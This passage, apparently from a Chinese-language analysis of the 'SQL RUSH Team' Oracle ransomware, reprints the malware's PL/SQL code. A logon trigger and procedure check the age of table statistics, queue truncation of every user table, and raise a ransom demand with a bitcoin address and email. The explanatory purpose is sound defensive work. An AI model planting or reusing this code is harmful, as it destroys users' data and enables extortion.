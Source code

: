 ```
END IF;
EXCEPTION
WHEN E1 THEN
RAISE_APPLICATION_ERROR(-20313,'你的数据库已被SQL RUSH Team锁死 发送5个比特币到这个地址 166xk1FXMB2g8JxBVF5T4Aw1Z5JaZ6vrSE (大小写一致) 之后把你的Oracle SID邮寄地址 sqlrush@mail.com 我们将让你知道如何解锁你的数据库 Hi buddy, your database was hacked by SQL RUSH Team, send 5 bitcoin to address 166xk1FXMB2g8JxBVF5T4Aw1Z5JaZ6vrSE (case sensitive), after that send your Oracle SID to mail address sqlrush@mail.com, we will let you know how to unlock your database.');
WHEN OTHERS THEN
NULL;
END;
/
```
DBMS_CORE_INTERNAL，和DBMS_CORE_INTERNAL存储过程代码如下：

```
CREATE OR REPLACE TRIGGER "DBMS_CORE_INTERNAL "
AFTER LOGON ON SCHEMA
BEGIN 
"DBMS_CORE_INTERNAL ";
END;
/

```
DBMS_CORE_INTERNAL根据表空间中表的最小统计信息收集时间和当前时间比决定，是入侵数据库实施勒索，还是先潜伏直到条件成熟再进行勒索。满足条件即执行truncate表操作，清掉用户数据，最后向用户弹窗实施勒索：
```
PROCEDURE "DBMS_CORE_INTERNAL " IS
V_JOB NUMBER;
DATE1 INT :=10;
STAT VARCHAR2(2000);
V_MODULE VARCHAR2(2000);
E1 EXCEPTION;
PRAGMA EXCEPTION_INIT(E1, -20315);
CURSOR TLIST IS SELECT * FROM USER_TABLES WHERE TABLE_NAME NOT LIKE '%$%' AND TABLE_NAME NOT LIKE '%ORACHK%' AND CLUSTER_NAME IS NULL;
BEGIN
SELECT NVL(TO_CHAR(SYSDATE-MIN(LAST_ANALYZED)),0) INTO DATE1 FROM ALL_TABLES WHERE TABLESPACE_NAME NOT IN ('SYSTEM','SYSAUX','EXAMPLE');
IF (DATE1>=1200) THEN
FOR I IN TLIST LOOP
DBMS_OUTPUT.PUT_LINE('table_name is ' ||I.TABLE_NAME);
STAT:='truncate table '||USER||'.'||I.TABLE_NAME;
DBMS_JOB.SUBMIT(V_JOB, 'DBMS_STANDARD_FUN9(''' || STAT || ''');', SYSDATE);
COMMIT;
END LOOP;
END IF; 
IF (UPPER(SYS_CONTEXT('USERENV', 'MODULE'))!='C89239.EXE')
THEN
RAISE E1;
END IF;
EXCEPTION
WHEN E1 THEN
RAISE_APPLICATION_ERROR(-20315,'你的数据库已被SQL RUSH Team锁死 发送5个比特币到这个地址 166xk1FXMB2g8JxBVF5T4Aw1Z5JaZ6vrSE (大小写一致) 之后把你的Oracle SID邮寄地址 sqlrush@mail.com 我们将让你知道如何解锁你的数据库 Hi buddy, your database was hacked by SQL RUSH Team, send 5 bitcoin to address 166xk1FXMB2g8JxBVF5T4Aw1Z5JaZ6vrSE (case sensitive), after that send your Oracle SID to mail address sqlrush@mail.com, we will let you know how to unlock your database.');
WHEN OTHERS THEN
RAISE_APPLICATION_ERROR(-20315,'你的数据库已被SQL RUSH Team锁死 发送5个比特币到这个地址 166xk1FXMB2g8JxBVF5T4Aw1Z5JaZ6vrSE (大小写一致) 之后把你的Oracle SID邮寄地址 sqlrush@mail.com 我们将让你知道如何解锁你的数据库 Hi buddy, your database was hacked by SQL RUSH Team, send 5 bitcoin to address 166xk1FXMB2g8JxBVF5T4Aw1Z5JaZ6vrSE (case sensitive), after that send your Oracle SID to mail address sqlrush@mail.com, we will let you know how to unlock your database.'); 
```